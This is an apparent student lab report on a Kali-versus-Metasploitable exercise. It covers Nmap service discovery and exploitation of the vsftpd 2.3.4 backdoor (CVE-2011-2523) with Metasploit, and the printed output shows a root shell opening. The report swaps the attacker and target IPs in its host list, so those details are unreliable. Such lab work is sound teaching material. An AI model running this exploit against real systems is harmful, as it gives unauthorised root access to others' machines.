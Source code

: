 # Mini Report — Building Your First Attack Surface Map

**Student Name:** Jumanah Alshehri  
**Date & Time:** 19/10/2025 4:00 PM  
**Kali IP:** 192.168.56.4  
**Target (Metasploitable) IP:** 192.168.56.3

## 1) Live hosts found
- **192.168.56.4** — Metasploitable2 (Host is up)  
- **192.168.56.3** — Kali (lab attacker)  

## 2) Open ports & service versions (top findings)
- **21/tcp** — ftp — *vsftpd 2.3.4*  
- **22/tcp** — ssh — *OpenSSH 4.7p1*  
- **80/tcp** — http — *Apache 2.2.8*  

## 3) Confirmed vulnerability
- **Name:** vsftpd 2.3.4 backdoor  
- **CVE:** CVE-2011-2523  
- **Evidence:** NSE output file `nse_ftp_vsftpd.txt` (attach), screenshot `nse_vsftpd.png`  
- **Notes:** NSE reported **VULNERABLE**

## 4) Attack path / prioritisation

**Why target FTP?**  
Nmap detected an FTP server reporting vsftpd 2.3.4 on port 21. This particular version has a documented backdoor (CVE-2011-2523) that can spawn a bind shell, allowing immediate remote code execution and privilege escalation. Given the exposed service and known exploitability, FTP is a high-priority target for validation and remediation.

Use Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` to confirm exploitability.

**Output:**
```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.3
RHOSTS => 192.168.56.3
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
RPORT => 21
msf exploit(unix/ftp/vsftpd_234_backdoor) > set VERBOSE true
VERBOSE => true
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.56.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.3:21 - USER: 331 Please specify the password.
[+] 192.168.56.3:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.3:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.4:43965 -> 192.168.56.3:6200) at 2025-10-19 13:14:35 -0400
